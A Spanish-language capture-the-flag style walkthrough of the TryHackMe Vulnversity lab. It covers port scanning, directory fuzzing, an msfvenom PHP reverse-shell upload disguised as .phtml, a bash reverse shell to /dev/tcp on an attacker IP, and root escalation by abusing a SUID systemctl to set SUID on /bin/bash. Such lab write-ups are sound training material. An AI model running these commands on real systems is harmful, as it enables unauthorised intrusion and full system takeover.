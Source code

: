 Maquinas que vamos a utilizar **Kali Linux y Vulnversity** [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

  

Otra técnica muy frecuente para escalar privilegios en Linux es la enumeración de binarios SUID, donde podremos conocer que binarios tienen **setuid 0** y podemos utilizarlos para escalar privilegios en Linux.

  

> [!important] El **setuid** (Set User ID) es un permiso especial en sistemas operativos basados en Unix que permite a los usuarios ejecutar un archivo con los privilegios del propietario del archivo, en lugar de con los suyos propios. Esto es útil para tareas que requieren permisos elevados, como cambiar contraseñas o enviar paquetes de red.
> 
> Cuando un archivo tiene **setuid 0**, significa que se ejecutará con los privilegios del usuario **root** (ID 0), lo que le otorga acceso total al sistema.

  

```Bash
ping -c 1 10.10.211.221
```

![[Imagenes/image 57.png|image 57.png]]

  

> [!important] Vamos a hacer la intrusión a esta maquina que ya la habíamos visto antes y después haremos la escalada de privilegios.
> 
>   

  

```Bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.10.211.221
```

![[Imagenes/image 1 46.png|image 1 46.png]]

  

- Miramos en el navegador
    
    ![[Imagenes/image 2 45.png|image 2 45.png]]
    

  

- Hacemos **Fuzzing Web con gobuster.**
    
    ```Bash
    gobuster dir -u http://10.10.211.221:3333/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    ```
    
    ![[Imagenes/image 3 44.png|image 3 44.png]]
    

  

- Lo miramos en el navegador web y vemos que tenemos un panel de subida de archivos.
    
    `http://10.10.211.221:3333/internal/index.php`
    
    ![[Imagenes/image 4 42.png|image 4 42.png]]
    

  

- Nos creamos un payload con msfvenom
    
    ```Bash
    msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > pwned.php 
    ```
    
    ![[Imagenes/image 5 41.png|image 5 41.png]]
    

  

- Como la extensión php no esta permitida en este panel le vamos a cambiar la extensión.
    
    ```Bash
    mv pwned.php pwned.phtml
    ```
    
    ![[Imagenes/image 6 39.png|image 6 39.png]]
    

  

- Lo intentamos subirlo
    
    ![[Imagenes/image 7 37.png|image 7 37.png]]
    

  

- Volvemos a hacer **Fuzzing Web** pero esta vez de `[http://10.10.211.221:3333/internal/](http://10.10.211.221:3333/internal/)` para encontrar la carpeta donde se guardan los archivos subidos.
    
    ```Bash
    gobuster dir -u http://10.10.211.221:3333/internal/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
    ```
    
    ![[Imagenes/image 8 35.png|image 8 35.png]]
    

  

- Lo miramos en el navegador web.
    
    ![[Imagenes/image 9 32.png|image 9 32.png]]
    
- Nos ponemos a la escucha con netcat por el puerto 443.
    
    ```Bash
    nc -nlvp 443
    ```
    
    ![[Imagenes/image 10 28.png|image 10 28.png]]
    

  

> [!important] Como es una conexión por msfvenom y es muy inestable vamos a a estabilizarla.

  

- Nos ponemos a la escucha con netcat por el puerto 444 en otra terminal
    
    ```Bash
    nc -nlvp 444 
    ```
    
    ![[Imagenes/image 11 22.png|image 11 22.png]]
    

  

- Nos vamos a la pagina [https://www.revshells.com/](https://www.revshells.com/) y creamos y copiamos el código de una reverse shell.
    
    ![[Imagenes/image 12 22.png|image 12 22.png]]
    

Que quedaría así :  
  
  
`bash -c "sh -i >& /dev/tcp/10.21.166.149/444 0>&1"`

  

- ejecutamos el archivo malicioso y cuando tengamos la conexión pegamos el código para generar una conexión estable por el puerto 444.
    
    ![[Imagenes/image 13 21.png|image 13 21.png]]
    

![[Imagenes/image 14 19.png|image 14 19.png]]

  

  

---

  

**Comenzamos con la escalada de privilegios**

  

![[Imagenes/image 15 16.png|image 15 16.png]]

  

- Ejecuto el comando **sudo -l**
    
    `sudo -l`
    
    ![[Imagenes/image 16 13.png|image 16 13.png]]
    
    😲😲 No funciona 😲
    

  

- Vamos a hacer la siguiente búsqueda para buscar binarios vulnerable (con el permiso de root dentro del sistema. y Lugo comprobaremos en la web [https://gtfobins.github.io/](https://gtfobins.github.io/) si alguno de esos vinarios nos puede servir.
    
    `find / -perm -4000 2>/dev/null`
    
    ![[Imagenes/image 17 10.png|image 17 10.png]]
    

- Vamos a probar por ejemplo el binario **chfn**
    
    ![[Imagenes/image 18 8.png|image 18 8.png]]
    
    Vemos que no aparece.
    
      
    
- Probamos con **systemctl**
    
    ![[Imagenes/image 19 6.png|image 19 6.png]]
    

  

Lo que estamos haciendo básicamente ahora es **SUID** por lo tanto buscamos la instrucciones para el.

![[Imagenes/image 20 6.png|image 20 6.png]]

  

  

- Pero primero vamos a hacer un tratamiento de la TTY
    
    `script /dev/null -c bash`
    
    `CTRL+Z`
    
    `stty raw -echo; fg`
    
    `reset xterm` :
    
    **NOTA:** En ocasiones cuanto escribimos **reset xterm** no aparece en la pantalla pero se esta escribiendo.
    
    ![[Imagenes/image 21 5.png|image 21 5.png]]
    

`export TERM=xterm`  
  
`export SHELL=bash`

  

- Nos ubicamos en el directorio “/**tmp**” y nos creamos un script en bash con el contenido que hemos encontrado en [https://gtfobins.github.io/](https://gtfobins.github.io/).
    
    `cd /tmp`
    
    `nano` `[escalada.sh](http://escalada.sh/)`
    
    ![[Imagenes/image 22 5.png|image 22 5.png]]
    
    ![[Imagenes/image 23 5.png|image 23 5.png]]
    
    ![[Imagenes/image 24 4.png|image 24 4.png]]
    
    Modificamos esto: `"id > /tmp/output"` → `"chmod u+s /bin/bash"`
    
      
    
    > [!important] Cada elemento del comando cumple una función específica:
    > 
    > 🔹 `**chmod**` → Es el comando que se usa para **cambiar los permisos** de archivos en Linux.
    > 
    > 🔹 `**u+s**` → Se divide en dos partes:
    > 
    > - `**u**` → Representa el **usuario propietario** del archivo (normalmente root).
    > - `**+s**` → Habilita el **bit SUID (Set User ID)**, lo que permite que el programa se ejecute con los privilegios de su propietario en lugar de los del usuario que lo ejecuta.  
    >     🔹  
    >     `**/bin/bash**` → Es el archivo al que se le aplican los nuevos permisos. En este caso, el ejecutable de **Bash**, la shell de comandos de Linux.
    > 
    > Esto significa que **podría ejecutar comandos con privilegios de administrador**, lo que puede ser un grave **riesgo de seguridad**.
    
      
    
- Ejecutamos el archivo que acabamos de crear.
    
    `bash` `[escalada.sh](http://escalada.sh/)`
    
    ![[Imagenes/image 25 4.png|image 25 4.png]]
    
    😲😲**Me da un error** 😱
    

El error es que en el archivo **esta puesta la ruta relativa** y dentro de lo posible siempre hay que evitar esto y **poner la ruta absoluta**.

![[Imagenes/image 26 2.png|image 26 2.png]]

La ruta la encontrábamos aquí anteriormente. `/bin/systemctl`

![[Imagenes/image 27 2.png|image 27 2.png]]

**Quedando asi:**

![[Imagenes/image 28 2.png|image 28 2.png]]

  

- Volvemos a ejecutar el archivo que habíamos creado.
    
    `bash` `[escalada.sh](http://escalada.sh/)`
    
    ![[Imagenes/image 29 2.png|image 29 2.png]]
    

  

- Escribimos el siguiente comando y nos habremos convertimos en **root**.
    
    `bash -p`
    
    ![[Imagenes/image 30 2.png|image 30 2.png]]